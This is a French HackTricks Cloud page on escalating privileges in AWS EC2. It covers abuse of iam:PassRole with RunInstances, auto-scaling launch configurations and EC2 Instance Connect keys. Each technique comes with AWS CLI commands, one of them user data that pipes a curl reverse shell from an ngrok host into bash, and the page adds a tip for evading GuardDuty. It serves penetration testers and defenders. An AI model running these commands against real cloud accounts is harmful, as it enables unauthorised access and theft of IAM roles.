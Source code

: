 # AWS - EC2 Privesc

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez** 💬 [**le groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## EC2

Pour plus d'**informations sur EC2**, consultez :

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

Un attaquant ayant les autorisations `iam:PassRole` et `ec2:RunInstances` peut **créer une nouvelle instance EC2** à laquelle il aura accès au système d'exploitation et **passer un profil d'instance EC2 existant**. Il peut ensuite se connecter à l'instance et **demander les clés AWS associées aux métadonnées de l'instance EC2**, ce qui lui donne accès à toutes les autorisations que le profil d'instance/service associé a.

* **Accès via SSH**

Vous pouvez exécuter une nouvelle instance en utilisant une **clé ssh créée** (`--key-name`) et ensuite ssh dedans (si vous voulez en créer une nouvelle, vous pourriez avoir besoin de la permission `ec2:CreateKeyPair`).

```bash
aws ec2 run-instances --image-id ami-a4dc46db --instance-type t2.micro \
    --iam-instance-profile Name=iam-full-access-ip --key-name my_ssh_key \
    --security-group-ids sg-123456
```

* **Accès via une reverse shell dans les données utilisateur**

Vous pouvez exécuter une nouvelle instance en utilisant des **données utilisateur** (`--user-data`) qui vous enverront une **reverse shell**. Vous n'avez pas besoin de spécifier de groupe de sécurité de cette manière.

```bash
echo '#!/bin/bash
curl https://reverse-shell.sh/4.tcp.ngrok.io:17031 | bash' > /tmp/rev.sh

aws ec2 run-instances --image-id ami-0c1bc246476a5572b --instance-type t2.micro \
   --iam-instance-profile Name=EC2-CloudWatch-Agent-Role \
   --count 1 \
   --user-data "file:///tmp/rev.sh"
```

Une note importante à faire à propos de cette attaque est qu'un **indicateur évident de compromission** est lorsque les **informations d'identification du profil d'instance EC2 sont utilisées en dehors de l'instance spécifique**. Même AWS GuardDuty déclenche cela (https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_finding-types.html#unauthorized11), il n'est donc pas judicieux d'extraire ces informations d'identification et de les exécuter localement, mais plutôt **d'accéder à l'API AWS depuis cette instance EC2**.

**Impact potentiel :** Privesc direct vers n'importe quel rôle EC2 attaché à des profils d'instance existants.

#### Privesc vers ECS

Avec cet ensemble d'autorisations, vous pouvez également **créer une instance EC2 et l'enregistrer dans un cluster ECS**. De cette façon, les **services ECS** seront **exécutés** à l'intérieur de l'**instance EC2** où vous avez accès, puis vous pouvez pénétrer dans ces services (conteneurs Docker) et **voler les rôles ECS qui y sont attachés**.

```bash
aws ec2 run-instances \
    --image-id ami-07fde2ae86109a2af \
    --instance-type t2.micro \
    --iam-instance-profile <ECS_role> \
    --count 1 --key-name pwned \
    --user-data "file:///tmp/asd.sh" 

# Assurez-vous d'utiliser une AMI optimisée pour ECS car elle a déjà tout installé pour ECS (amzn2-ami-ecs-hvm-2.0.20210520-x86_64-ebs)
# Le profil d'instance EC2 a besoin d'un accès ECS de base
# Le contenu des données utilisateur est :
#!/bin/bash
echo ECS_CLUSTER=<cluster-name> >> /etc/ecs/ecs.config;echo ECS_BACKEND_HOST= >> /etc/ecs/ecs.config;
```

Pour apprendre comment **forcer les services ECS à s'exécuter** dans cette nouvelle instance EC2, consultez :

{% content-ref url="aws-ecs-privesc.md" %}
[aws-ecs-privesc.md](aws-ecs-privesc.md)
{% endcontent-ref %}

Si vous **ne pouvez pas créer une nouvelle instance** mais avez la permission `ecs:Register
### `autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`

Un attaquant ayant les permissions **`autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`** peut **créer une configuration de lancement** avec un **rôle IAM** et un **shell inversé** dans les **données utilisateur**, puis **créer un groupe d'auto-scaling** à partir de cette configuration et attendre que le shell inversé **vole le rôle IAM**.

```bash
aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-launch-configuration \
   --launch-configuration-name bad_config \
   --image-id ami-0c1bc246476a5572b \
   --instance-type t3.micro \
   --iam-instance-profile EC2-CloudWatch-Agent-Role \
   --user-data "$REV"

aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-auto-scaling-group \
   --auto-scaling-group-name bad_auto \
   --min-size 1 --max-size 1 \
   --launch-configuration-name bad_config \
   --desired-capacity 1 \
   --vpc-zone-identifier "subnet-e282f9b8"
```

**Impact potentiel:** Privilège direct à un rôle EC2 différent.

### `!autoscaling`

L'ensemble des permissions **`ec2:CreateLaunchTemplate`** et **`autoscaling:CreateAutoScalingGroup`** **ne suffisent pas à l'escalade** des privilèges vers un rôle IAM car pour attacher le rôle spécifié dans la configuration de lancement ou dans le modèle de lancement, **vous avez besoin des permissions `iam:PassRole` et `ec2:RunInstances`** (ce qui est une escalade de privilèges connue).

### `ec2-instance-connect:SendSSHPublicKey`

Un attaquant ayant la permission **`ec2-instance-connect:SendSSHPublicKey`** peut ajouter une clé ssh à un utilisateur et l'utiliser pour y accéder (s'il a accès ssh à l'instance) ou pour escalader les privilèges.

```bash
aws ec2-instance-connect send-ssh-public-key \
   --instance-id "$INSTANCE_ID" \
   --instance-os-user "ec2-user" \
   --ssh-public-key "file://$PUBK_PATH"
```

**Impact potentiel:** Privilège direct aux rôles IAM EC2 attachés aux instances en cours d'exécution.

### `ec2-instance-connect:SendSerialConsoleSSHPublicKey`

Un attaquant ayant la permission **`ec2-instance-connect:SendSerialConsoleSSHPublicKey`** peut **ajouter une clé ssh à une connexion série**. Si la série n'est pas activée, l'attaquant a besoin de la permission **`ec2:EnableSerialConsoleAccess` pour l'activer**.

Pour se connecter au port série, vous devez également **connaître le nom d'utilisateur et le mot de passe d'un utilisateur** à l'intérieur de la machine.

```bash
aws ec2 enable-serial-console-access

aws ec2-instance-connect send-serial-console-ssh-public-key \
   --instance-id "$INSTANCE_ID" \
   --serial-port 0 \
   --region "eu-west-1" \
   --ssh-public-key "file://$PUBK_PATH"

ssh -i /tmp/priv $INSTANCE_ID.port0@serial-console.ec2-instance-connect.eu-west-1.aws
```

Cette méthode n'est pas très utile pour l'escalade de privilèges car vous devez connaître un nom d'utilisateur et un mot de passe pour l'exploiter.

**Impact potentiel:** (Très improbable) Privilège direct aux rôles IAM EC2 attachés aux instances en cours d'exécution.